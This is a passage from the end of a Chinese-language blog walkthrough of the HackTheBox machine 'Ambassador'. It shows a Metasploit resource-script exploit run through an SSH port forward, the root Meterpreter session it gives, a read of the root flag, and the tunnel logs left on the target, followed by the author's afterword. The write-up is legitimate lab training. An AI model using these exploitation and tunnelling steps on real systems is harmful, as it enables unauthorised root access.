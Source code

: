 最后，运行msf执行上述命令（msf会自己开启监听，所以不需另外用 `nc` 开启监听，否则msf会报错说端口已被占用）：
```bash
msfconsole -r msf.txt
```

exploit成功，竟然是获得Meterpreter啊，还以为会是bash什么的。

```bash
meterpreter > getuid
Server username: root
meterpreter > pwd
/
meterpreter > cat /root/root.txt
d5f3…………efdf
```

顺便，由于SSH隧道用了 `-v` 选项，目标机会有这些log：
```bash
developer@ambassador:~$ debug1: Connection to port 8500 forwarding to 127.0.0.1 port 8500 requested.
debug1: channel 3: new [direct-tcpip]
debug1: channel 3: free: direct-tcpip: listening port 8500 for 127.0.0.1 port 8500, connect from 127.0.0.1 port 36675 to 127.0.0.1 port 8500, nchannels 4
debug1: Connection to port 8500 forwarding to 127.0.0.1 port 8500 requested.
debug1: channel 3: new [direct-tcpip]
debug1: channel 3: free: direct-tcpip: listening port 8500 for 127.0.0.1 port 8500, connect from 127.0.0.1 port 40919 to 127.0.0.1 port 8500, nchannels 4
```


以上。


---

## 后记

2022/12/25  
竟然在年内打完这台啦，不愧是Medium里用户评分最简单的一台www  
也算是赶上了好时候，一直都是只敢玩玩THM，（大概一年前左右刚入门时玩了一下HTB完全不懂严重受挫于是没想着自己能打HTB……）12月初因为各种契机，开始琢磨着捡起号玩玩HTB时看到有这台似乎较简单的Medium，又看了下Rank的计算就是打6台升到Hacker。于是12月有空就打靶，功夫不负有心人吧！

也该准备准备复习CEH了。等考完继续愉快打靶~


2022/01/10  
补充了一下方法二（metasploit+端口转发）。  
主要是想弄清为什么打靶过程中用metasploit失败了，之前琢磨着应该是要做个端口转发。如果想法正确，那么正好可以借此验证一下，顺带着把端口转发的理论知识转化为实践。
结果实验成功~